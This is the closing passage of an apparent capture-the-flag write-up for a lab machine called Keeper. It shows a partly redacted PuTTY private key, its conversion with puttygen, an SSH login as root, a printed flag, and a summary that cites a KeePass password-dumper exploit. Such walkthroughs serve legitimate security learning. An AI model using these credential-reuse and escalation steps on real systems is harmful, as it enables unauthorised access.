 ```console
Comment: rsa-key-20230519

Public-Lines: 6

AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D

[...]

Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

```

> [!TIP]   
> We use the `-f` flag for showing the hidden section.

### 8. Converting PUTTY Private Key into OpenSSH Key

> [!TIP]   
> For having the correct format we use `regex` inside vim to remove the space : `:%s/ //g` and starting with `PuTTY-User-Key-File-3: ssh-rsa

*We now have a `.ppk` file, which is a `PUTTY` private key. To use it with SSH, we convert it to an OpenSSH key using `puttygen`:*

```console
root@kali~# puttygen root.ppk -O private-openssh -o id_dsa
````

> [!NOTE]  
> `Puttygen` is a tool used to generate SSH keys, especially for the PuTTY SSH client. It can also convert between different SSH key formats, including converting PuTTY's `.ppk` format to OpenSSH's `.pem` format.

*We use this key to connect via SSH:*

```console
root@kali~# ssh -i id_dsa root@keeper.htb

root@keeper:~# whoami
root

root@keeper:~# cat root.txt
bbc2fa623ef937e8556c25d6f13cf89c
```
## Conclusion

*In this write-up, we demonstrated the process of exploiting an open-source ticketing system vulnerability, gaining user access, and escalating privileges using a known vulnerability in KeePass. After extracting the master password, we were able to access sensitive credentials and gain root access to the system, ultimately retrieving the `root.txt` flag.*

  

> [!IMPORTANT]  
> **nmap**: To scan open ports and services.
>
> **scp**: To securely transfer files between remote and local systems.
>
> **dotnet**: To run the KeePass password dumper exploit.
>
> **puttygen**: To convert PUTTY private key files into OpenSSH key format.
>
> **kpcli**: To interact with KeePass password database files.

